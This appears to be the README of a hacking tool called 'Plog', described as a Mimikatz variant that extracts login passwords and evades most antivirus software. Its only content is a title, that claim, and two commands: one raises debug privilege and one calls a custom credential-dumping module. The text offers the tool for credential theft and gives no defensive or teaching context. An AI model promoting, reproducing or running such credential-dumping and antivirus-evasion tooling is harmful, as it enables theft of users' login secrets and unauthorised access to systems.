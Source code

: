 # Plog
A Mimikatz For Only Extracting Login Passwords.(Bypasses Most AV's)

```privilege:debug```

```sekurlsa:Plog```
